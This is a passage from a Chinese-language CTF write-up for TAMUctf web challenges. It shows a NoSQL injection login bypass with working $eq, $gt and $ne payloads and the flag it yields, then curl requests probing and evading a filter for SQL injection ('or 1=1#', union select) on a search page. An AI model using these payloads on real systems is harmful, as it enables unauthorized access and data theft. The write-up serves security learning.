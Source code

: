 NoSQL注入。

报文：

```bash
POST /login HTTP/1.1
Host: web4.tamuctf.com
Content-Length: 50
Accept: text/plain
Content-Type: application/json;charset=UTF-8
Referer: http://web4.tamuctf.com/admin
Connection: close

{"username":{"$eq":"admin"},"password":{"$gt":""}}
```

或

![1552746047220](1552746047220.png)

或

```bash
curl -H 'Content-Type: application/json; charset=UTF-8' -X POST --data '{"username":{"$ne":"nosql"},"password":{"$ne":"injection"}}' http://web4.tamuctf.com/login
"Welcome: bob!"

curl -H 'Content-Type: application/json; charset=UTF-8' -X POST --data '{"username":{"$ne":"bob"},"password":{"$ne":"injection"}}' http://web4.tamuctf.com/login
"Welcome: admin!\ngigem{n0_sql?_n0_pr0bl3m_8a8651c31f16f5dea}"
```

参考文章：

[一个有趣的实例让NoSQL注入不再神秘](https://www.freebuf.com/articles/database/95314.html) 

## Bird Box Challenge

> http://web2.tamuctf.com
>
> We've got Aggies, Trucks, and Eggs!
>
> Difficulty: hard

```bash
neo@o:~$ curl -sG --data-urlencode "Search=test" http://web2.tamuctf.com/Search.php  | grep -o "<h1>.*</h1>"
<h1>Our search isn't THAT good...</h1>

neo@o:~$ curl -sG --data-urlencode "Search=test' or 1=1#" http://web2.tamuctf.com/Search.php  | grep -o "<h1>.*</h1>"
<h1>Nice try, nothing to see here.</h1>

neo@o:~$ curl -sG --data-urlencode "Search=test' and 1=0 union select 123 #" http://web2.tamuctf.com/Search.php  | grep -o "<h1>.*</h1>"
<h1>Nope. Not gonna let you use that command.</h1>

neo@o:~$ curl -sG --data-urlencode "Search=test' and 1=0 union  123 #" http://web2.tamuctf.com/Search.php  | grep -o "<h1>.*</h1>"
<h1>Nope. Not gonna let you use that command.</h1>

neo@o:~$ curl -sG --data-urlencode "Search=test' and 1=0 select  123 #" http://web2.tamuctf.com/Search.php  | grep -o "<h1>.*</h1>"
<h1> Our search isn't THAT good... </h1>

neo@o:~$ curl -sG --data-urlencode "Search=test'union select 123#" http://web2.tamuctf.com/Search.php  | grep -o "<h1>.*</h1>"
<h1>123</h1>
```